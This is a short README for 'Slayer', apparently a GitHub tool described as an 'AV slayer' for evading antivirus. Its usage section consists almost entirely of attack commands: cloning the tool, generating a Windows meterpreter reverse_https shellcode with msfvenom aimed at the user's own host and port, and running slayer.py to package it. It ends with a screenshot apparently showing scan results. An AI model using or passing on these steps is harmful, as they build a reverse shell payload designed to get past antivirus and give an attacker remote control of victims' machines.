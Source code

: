 # Slayer


![slayer](https://user-images.githubusercontent.com/48562581/152685082-aa292a0e-7683-4612-9105-ed34ec158e21.PNG)


Just a AV slayer. Nothing special ;)

### USAGE
git clone https://github.com/mertdas/slayer.git && apt-get install mingw-w64*

cd slayer

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=YOUR IP LPORT=YOUR PORT -f raw -o shellcode.raw

python3 slayer.py

### Scan Results

![image](https://user-images.githubusercontent.com/48562581/152684537-d445638f-c73b-46cb-a809-dfaa5a65b334.png)
